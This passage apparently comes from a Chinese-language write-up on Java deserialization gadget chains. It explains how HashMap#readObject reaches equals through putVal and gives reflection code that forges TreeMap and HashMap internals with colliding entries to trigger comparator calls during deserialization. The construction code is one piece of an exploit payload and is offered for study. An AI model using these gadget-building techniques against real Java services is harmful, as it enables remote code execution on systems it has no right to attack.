 ```java
        }
    } // ...
}
```

`HashMap#readObject`会调用`putVal`，`putVal`当遇到哈希碰撞时就会调用`equals`

```java
final V putVal(int hash, K key, V value, boolean onlyIfAbsent,
               boolean evict) {
    Node<K,V>[] tab; Node<K,V> p; int n, i;
    if ((tab = table) == null || (n = tab.length) == 0)
        n = (tab = resize()).length;
    if ((p = tab[i = (n - 1) & hash]) == null)  // 该位置未放元素，新建一个Node放入
        tab[i] = newNode(hash, key, value, null);
    else { // 该位置有元素，即哈希碰撞了
        Node<K,V> e; K k;
        if (p.hash == hash &&
            ((k = p.key) == key || (key != null && key.equals(k))))
            e = p;
        // ...
    }
}
```

构造如下：

```java
TreeMap treeMap1 = makeTree(obj, comparator);
TreeMap treeMap2 = makeTree(obj, comparator);
HashMap hashMap = makeMap(treeMap1, treeMap2);

public static TreeMap<Object, Object> makeTree(Object o, Comparator comparator) throws Exception {
    TreeMap<Object, Object> map = new TreeMap<>();
    setFieldValue(map, "size", 1);
    Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
    Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object node = nodeCons.newInstance(o, 1, null);
    setFieldValue(map, "root", node);
    setFieldValue(map, "comparator", comparator);

    return map;
}

public static HashMap<Object, Object> makeMap(Object v1, Object v2) throws Exception {
    HashMap<Object, Object> s = new HashMap<>();
    setFieldValue(s, "size", 2);
    Class<?> nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    } catch (ClassNotFoundException e) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, v1, "b", null));
    Array.set(tbl, 1, nodeCons.newInstance(0, v2, "c", null));
    setFieldValue(s, "table", tbl);
    return s;
}
```